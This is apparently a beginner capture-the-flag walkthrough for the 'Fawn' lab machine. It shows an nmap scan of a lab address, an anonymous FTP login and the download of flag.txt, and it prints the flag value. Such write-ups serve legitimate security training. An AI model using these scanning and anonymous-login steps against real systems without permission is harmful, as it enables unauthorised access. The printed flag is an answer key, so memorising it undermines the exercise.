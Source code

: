 # CTF Walkthrough: Fawn

## Table of Contents
- [1. Introduction](#1-introduction)
- [2. Steps](#2-steps)

---

## 1. Introduction

**Category:** File Trainsfer Protocol (FTP)
**Difficulty Level:** Very Easy   
**CVE(s) involved:** -

---

## 2. Steps

1. Service Enumeration
    - Command: `nmap -sV -sC 10.129.82.177`
        - Output:
            ```
            PORT   STATE SERVICE VERSION
            21/tcp open  ftp     vsftpd 3.0.3
            | ftp-syst:
            |   STAT:
            | FTP server status:
            |      Connected to ::ffff:10.10.14.170
            |      Logged in as ftp
            |      TYPE: ASCII
            |      No session bandwidth limit
            |      Session timeout in seconds is 300
            |      Control connection is plain text
            |      Data connections will be plain text
            |      At session startup, client count was 3
            |      vsFTPd 3.0.3 - secure, fast, stable
            |_End of status
            | ftp-anon: Anonymous FTP login allowed (FTP code 230)
            |_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
            Service Info: OS: Unix
            ```

2. Log in to FTP with Anonymous
    - Command: `ftp anonymous@10.129.82.177`

3. Get Flag
    - Command: `get flag.txt`
    - Flag : 035db21c881520061c53e0536e44f815
